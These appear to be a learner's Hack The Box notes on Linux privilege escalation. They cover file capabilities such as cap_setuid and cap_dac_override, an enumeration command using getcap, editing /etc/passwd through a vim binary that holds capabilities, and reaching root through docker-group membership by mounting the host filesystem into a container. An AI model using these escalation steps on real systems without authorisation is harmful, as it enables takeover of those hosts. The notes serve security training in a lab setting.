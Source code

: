 ```bash
dollarboysushil@htb[/htb]**$** sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```

| Capability Values | Description |
| --- | --- |
| = | This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable. |
| +ep | This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. |
| +ei | This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions. |
| +p | This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it. |

Several Linux capabilities can be used to escalate a user's privileges to `root`, including:

| Capability | Desciption |
| --- | --- |
| cap_setuid | Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the root user. |
| cap_setgid | Allows to set its effective group ID, which can be used to gain the privileges of another group, including the root group. |
| cap_sys_admin | This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the root user, such as modifying system settings and mounting and unmounting file systems. |
| cap_dac_override | Allows bypassing of file read, write, and execute permission checks. |

```
dollarboysushil@htb[/htb]$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

search for binary in 3 directories, `-exec` is used to run `getcap` command on each file, showing there capabilities.

- `dollarboysushil@htb[/htb]**$** /usr/bin/vim.basic /etc/passwd`

# Group based

# Docker

If we are member of docker group we can escalate our privilege to root.

The idea is, we are going to take `/` directory of host machine and mount it to our container. Once the directory is mounted, we will have root inside of our container and we can manipulate any files on this host file system through the container.

- `docker run -v /:/mnt -it alpine`
    
    mount `/` from hot machine to `/mnt` with `-it` interactive terminal. using `alpine` image
    

When victim doesnot have internet, it cannot pull the alpine image, so 

- `docker pull alpine` → pull alpine in attacker machine
- `docker save -o alpine.tar alpine` → save alpine image to tar file and transfer to victim
- `docker load -i /path/to/destination/alpine.tar` → load image from tar file
